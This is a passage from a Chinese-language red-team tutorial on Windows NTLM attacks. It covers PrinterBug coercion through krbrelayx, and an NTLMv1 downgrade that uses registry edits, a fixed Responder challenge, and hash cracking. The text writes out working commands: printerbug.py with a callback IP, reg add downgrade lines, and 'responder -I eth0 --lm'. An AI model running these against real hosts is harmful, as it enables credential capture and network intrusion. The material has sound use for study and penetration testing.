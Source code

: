 工作组触发 printerbug 是没问题，pipepotato 在工作组内也能起作用，问题在打印机服务是以 system 用户的权限运行的服务，system 用户在工作组内的网络凭据是匿名的，wireshark 抓包应该可以看到是 \，也就是不携带任何凭据。域内能利用是因为 system 用户在域内的网络凭据是机器用户的凭据。所以主要问题应该是网络凭据这块。network service 的网络凭据也是机器用户,pc默认会开启，且一般很少去关

- **krbrelayx**
  - [dirkjanm/krbrelayx](https://github.com/dirkjanm/krbrelayx)
    ```
    python3 printerbug.py 域/用户名:密码@打印机服务ip 回连ip
    ```

---

## 加密降级攻击(或使用 Internal-Monologue)

在实际情况中，NTLMv1 hash 也是存在于 winserver 2003、windows xp 上，而在 win7 上是默认关闭的，我们可以通过修改注册表的方式，使 win7 支持 NTLM V1 认证.

由于 NTLM V1 认证过程的特殊性，非常容易被破解并还原出 NTLM HASH,为破解 NTLMv1 hash，我们还需要做一些准备，在 “欺骗阶段”，所以我们需要将 challenge 固定下来，得出特定 challenge 的 NTLMv1 hash，方便后续破解

这里手动在目标机器上降级
```
reg add HKLM\SYSTEM\CurrentControlSet\Control\Lsa\ /v lmcompatibilitylevel /t REG_DWORD /d 2 /f
reg add HKLM\SYSTEM\CurrentControlSet\Control\Lsa\MSV1_0\ /v NtlmMinClientSec /t REG_DWORD /d 536870912 /f
reg add HKLM\SYSTEM\CurrentControlSet\Control\Lsa\MSV1_0\ /v RestrictSendingNTLMTraffic /t REG_DWORD /d 0 /f
```

修改 responder 配置文件,这里我们需要修改 responder.conf 里边的 challenge 值为 `1122334455667788`，然后再次开启 responder（注意加上 --lm 参数），此时收到的 NTLMv1 hash 就可以直接破解并还原出 NTLM HASH。
```
vim /usr/share/responder/Responder.conf
```

![](../../../../../assets/img/Security/RedTeam/OS安全/实验/Responder欺骗/10.png)

开启 responder，启动参数加上 --lm, 不加这个参数就是并不是完全用的 server challenge，这就导致了生成的彩虹表不能使用，破解难度增加，得出 hash 的叫 NTLMv1-SSP Hash。
```
responder -I eth0 --lm
```

win7 执行命令

![](../../../../../assets/img/Security/RedTeam/OS安全/实验/Responder欺骗/11.png)

可以直接用 https://crack.sh/netntlm/ 秒破,当然 hashcat 也可以爆破试试

